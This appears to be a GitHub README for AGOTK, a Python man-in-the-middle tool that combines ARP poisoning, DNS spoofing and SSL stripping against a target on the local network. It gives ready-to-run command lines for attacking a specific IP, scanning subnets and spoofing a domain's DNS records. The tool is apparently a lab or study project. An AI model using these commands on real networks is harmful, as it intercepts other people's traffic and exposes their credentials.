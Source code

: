 # AGOTK
AGOTK is a tool that sets up a man-im-the-middle attack by means of ARP Poisoning to put itself between the gateay and the target. Using the man-in-the-middle position, it spoofs the DNS requests by answering with the IP of the device the tool is running on such that each messsage that the target sends will be send to a proxy server that AGOTK maintains. Within this proxy server AGOTK will apply SSL stripping.

## Requirements
To run this tool Python 3.8 is required as well as Linux as operating system.
AGOTK does not run on Windows or macOS.

## Installation
To install the packages, you need to enter the following:

```make```

## Usage
To run the module, you need to enter the following command:

```sudo python -m AGOTK -i <interface> -t <target> -r <range>```

If no interface is given, AGOTK will use the default one. If no target (i.e. an IP address of the target) is given, AGOTK will run a manual scan to get a list of IP addresses on the local network. If no range is given then AGOTK will scan on subnet {ip}/24.

For help, you need to enter the following command:

```sudo python -m AGOTK -h```

This will show you a list of parameters with explanations.

### Examples
Attack target '192.168.0.15' with ARP Poisoning and SSLStrip.

```sudo python -m AGOTK -t 192.168.0.15```


Scan targets and choose, then do ARP Poisoning and SSLStrip. Block HTTPS and Quic traffic.

```sudo python -m AGOTK -o```


Scan targets over range '192.168.0.0/16' on interface 'vboxnet0' and choose, then do ARP Poisoning and SSLStrip:

```sudo python -m AGOTK -r 192.168.0.0/16 -i vboxnet0```


Scan and choose target, and spoof the domain 'example.com' with new A record '192.168.0.10' and (optionally) AAAA record '2001:0db8::0001:0000':

```sudo python -m AGOTK -d example.com --newip 192.168.0.10 --newip6 2001:0db8::0001:0000``` 
